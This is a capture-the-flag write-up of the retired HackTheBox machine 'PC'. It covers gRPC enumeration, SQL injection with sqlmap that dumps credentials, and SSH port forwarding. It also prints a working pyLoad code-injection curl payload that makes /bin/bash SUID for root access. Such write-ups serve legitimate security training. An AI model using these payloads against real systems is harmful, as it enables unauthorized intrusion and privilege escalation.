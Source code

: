 ```yaml
---
title: "PC HackTheBox"
layout: post
date: 2023-10-02 16:00
tag: 
- HackTheBox
- Pentesting
- PC
- Linux
- Easy
- gRPC
- SQLi
image: https://www.hackthebox.com/storage/avatars/6d08e5f1919c77c0497213377f635e08.png
headerImage: true
writeups: true
hidden: true # don't count this post in blog pagination
description: "An easy retired HackTheBox machine."
category: project
author: johndoe
externalLink: false
star: false
---
```


# Overview

An easy HackTheBox machine that exploits SQL injection in a gRPC application.

---

# Nmap

```bash
nmap -A -T4 10.10.11.214 -Pn -p-
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2023-08-09 20:04 +01
Stats: 0:03:39 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 56.93% done; ETC: 20:10 (0:02:46 remaining)
Nmap scan report for 10.10.11.214
Host is up (0.098s latency).
Not shown: 65533 filtered ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:bf:44:ed:ea:1e:32:24:30:1f:53:2c:ea:71:e5:ef (RSA)
|   256 84:86:a6:e2:04:ab:df:f7:1d:45:6c:cf:39:58:09:de (ECDSA)
|_  256 1a:a8:95:72:51:5e:8e:3c:f1:80:f5:42:fd:0a:28:1c (ED25519)
50051/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port50051-TCP:V=7.91%I=7%D=8/9%Time=64D3E4AA%P=x86_64-pc-linux-gnu%r(NU
SF:LL,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x06
SF:\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(GenericL
SF:ines,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x
SF:06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(GetReq
SF:uest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x
SF:06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(HTTPOp
SF:tions,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RTSPR
SF:equest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0
SF:\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RPCC
SF:heck,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x
SF:06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(DNSVer
SF:sionBindReqTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\x
SF:ff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0"
SF:)%r(DNSStatusRequestTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\
SF:x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0
SF:\0\?\0\0")%r(Help,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\
SF:?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0
SF:\0")%r(SSLSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05
SF:\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\
SF:?\0\0")%r(TerminalServerCookie,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff
SF:\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\
SF:0\0\0\0\0\?\0\0")%r(TLSSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\
SF:xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08
SF:\0\0\0\0\0\0\?\0\0")%r(Kerberos,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xf
SF:f\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0
SF:\0\0\0\0\0\?\0\0")%r(SMBProgNeg,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xf
SF:f\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0
SF:\0\0\0\0\0\?\0\0")%r(X11Probe,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\
SF:xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0
SF:\0\0\0\0\?\0\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I checked what's in the port 50051 I found :

![!\[\[Pasted image 20230809201409.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230809201409.png>)

First I didn't know what's that about, but after some googling I found it's about gRPC :

>gRPC is a modern open-source high performance Remote Procedure Call (RPC) framework. It can efficiently connect services in and across data centers with pluggable support for load balancing, tracing, health checking and authentication.

[https://medium.com/@ibm_ptc_security/grpc-security-series-part-3-c92f3b687dd9](https://medium.com/@ibm_ptc_security/grpc-security-series-part-3-c92f3b687dd9)

Following the above POC. We will first try to list out the blogs available to us in the target scope :

```bash
grpcurl -plaintext 10.10.11.214:50051 list
```

![!\[\[Pasted image 20230809202020.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230809202020.png>)

Now we are able to see that the SimpleApp service is up and running, we will now check about the list of services running on gRPC server :

```bash
grpcurl -plaintext 10.10.11.214:50051 list SimpleApp
```

![!\[\[Pasted image 20230809202240.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230809202240.png>)

Now we will create a user using the GRPC UI tool :

```bash
./grpcui -plaintext 10.10.11.214:50051
```

![!\[\[Pasted image 20230809202812.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230809202812.png>)

This command will initiate a UI portal on which we can provide our data to login or register a user :

![!\[\[Pasted image 20230809202905.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230809202905.png>)

After playing around with the UI interface, I realized that I can request the data using the credentials "admin:admin".

![!\[\[Pasted image 20230809203400.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230809203400.png>)

![!\[\[Pasted image 20230809212926.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230809212926.png>)

The blog above gave me a hint about possible SQLi in gRPC :

![!\[\[Pasted image 20230810002455.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810002455.png>)

Then I checked getInfo, which requires the token of the user to work :

![!\[\[Pasted image 20230810001553.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810001553.png>)

I sent the request to Repeater and then save it as req.txt to automatically test against SQLi :

```bash
sqlmap -r req.txt --dump
```

I found the credentials of the user **sau** :
**sau : HereIsYourPassWord1431**

![!\[\[Pasted image 20230810002005.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810002005.png>)

# User flag

I'm in ! Now I can get the user flag :

![!\[\[Pasted image 20230810001948.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810001948.png>)

# PE

I checked running services and I found a suspicious port, I decided to do SSH port forwarding to see what's behind this port :

![!\[\[Pasted image 20230810102352.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810102352.png>)

```bash
ssh -L 127.0.0.1:8000:127.0.0.1:8000 sau@10.10.11.214
```
![!\[\[Pasted image 20230810102306.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810102306.png>)

Found a pyLoad page, I checked if there a POC for that and I found it :

![!\[\[Pasted image 20230810102251.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810102251.png>)

[https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65](https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65)

I changed the payload to add the SUID permission to /bin/bash :

```bash
curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"chmod%20u%2Bs%20%2Fbin%2Fbash\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://127.0.0.1:8000/flash/addcrypted2'
```

![!\[\[Pasted image 20230810104618.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810104618.png>)

Boom I'm root !

![!\[\[Pasted image 20230810104551.png\]\]](<../../../assets/images/HTBPics/Pasted image 20230810104551.png>)

# Root flag

bash-5.0# cat /root/root.txt 
80c997563bf9af451544f2e71984d3c6

<br/>

# MACHINE PWNED!

<br/>

And that was it, I hope you enjoyed the writeup. If you have any questions you can [Contact Me](https://www.linkedin.com/in/hichamouardi).

<p>Happy Hacking!</p>
